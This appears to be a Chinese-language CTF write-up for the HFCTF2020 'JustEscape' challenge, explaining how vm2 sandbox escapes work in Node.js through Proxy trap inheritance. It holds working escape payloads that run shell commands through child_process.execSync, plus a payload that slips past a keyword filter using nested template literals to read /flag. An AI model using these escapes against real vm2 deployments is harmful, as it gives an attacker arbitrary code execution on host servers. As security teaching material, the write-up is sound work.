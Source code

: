 # [HFCTF2020]JustEscape

## 0、知识点

>   vm2沙盒逃逸

>   vm2能让用户在可控的范围和权限内发挥想象做一些好玩、有用的事情，扩展能力，满足用户的个性化需求

## 1、关于vm2

-   它是npm中的一个库也是**vm**的代替品，它是一个简单**沙箱环境（虚拟的）**，

    -   vm库：Node.js官方标准库中的vm库，用来在V8虚拟机环境中编译执行JS代码
    -   vm2库：它是vm库的升级版，专门为了解决vm的安全问题而诞生的

-   没有`require`功能，可以**同步运行不受信任的代码**，也就是在代码主程序之外**执行额外的js代码**

    -   不安全的原因：**用户可以通过额外的代码直接操作控制主程序**

-   vm2基于vm，使用官方的vm库构建沙箱环境。

    -   **然后使用JavaScript的Proxy技术来防止沙箱脚本逃逸。**

    ****

### 1、关于Proxy

es6 proxy的知识：https://es6.ruanyifeng.com/?search=weakmap&x=0&y=0#docs/proxy

```js
var handler = {
	get () {
		console.log("get");
	}
};
var target = {};
// 生成一个proxy实例
// targer：表示所要拦截的目标对象，如果为空表示任何访问都要走handle
// handle：用来定制拦截行为，如果handler没有设置任何拦截，那就等同于直接通向原对象。
var proxy = new Proxy(target, handler);

Object.prototype.has = function(){
	console.log("has");
}

proxy.a; //触发get
"" in proxy; //触发has，这个has是在原型链上定义的
```

>   在对象 `target` 上定义了 `get` 操作，会拦截对象属性的读取，所以当访问 `proxy.a` 时，会打印出 `get`

>   但是当执行 `"" in proxy` 时，也会被 `has`方法拦截，
>
>   此时，虽然没有直接在 `target` 对象上定义 `has` 拦截操作，即代理的方法是可以被继承的。

**vm2中实际运行的代码如下：**

```js
"use strict";

var process;

Object.prototype.has = function (t, k) {
    process = t.constructor("return process")();
};

"" in Buffer.from;
process.mainModule.require("child_process").execSync("whoami").toString()
```

>   `Buffer.from` 是一个代理对象，vm2的作者一开始并没有给vm2内部的Object 加上 has方法，
>
>   所以我们可以自己给 `Object` 对象的原型上添加 `has` 方法，这时候运行`"" in Buffer.from;`
>
>   就会去执行我们定义好的`has`方法，由于 `proxy` 的机制，参数 `t` 是 `function Buffer.from` ，这个`function`是在外部的，其上下文是` nodejs 的global下`，所以访问其 `constructor` 属性就获取到了外部的 `Function`，从而拿到外部的 `process`
>
>   而开发者的修复方案：添加上 has 方法，没有修复之前，`Buffer.from` 是没有拦截 `has` 操作的，
>
>   而修复之后：由于 `Buffer.from` 中已经存在了 has 方法，所以不会去原型链上查找







## 解题

GitHub上有写出漏洞playload：https://github.com/patriksimek/vm2/issues/225，拿过来改造一下就可以使用

```js
"use strict";
const {VM} = require('vm2');
const untrusted = '(' + function(){
	TypeError.prototype.get_process = f=>f.constructor("return process")();
	try{
		Object.preventExtensions(Buffer.from("")).a = 1;
	}catch(e){
		return e.get_process(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
	}
}+')()';
try{
	console.log(new VM().run(untrusted));
}catch(x){
	console.log(x);
}
```

**被过滤的参数**

```c
['for', 'while', 'process', 'exec', 'eval', 'constructor', 'prototype', 'Function', '+', '"',''']
 
 【""】被过滤可使用【``】符号代替，
	如：`${`x`}y` = xy，而单独使用`${x}`则是将x作为一个变量引入
```

**在原有的playload进行改造一下**

```js
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_proces`}s`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return this.proces`}s`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_proces`}s`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
    }
})()

```





参考：
https://segmentfault.com/a/1190000012672620

https://www.anquanke.com/post/id/207291

https://www.cnblogs.com/c0d1/p/16073632.html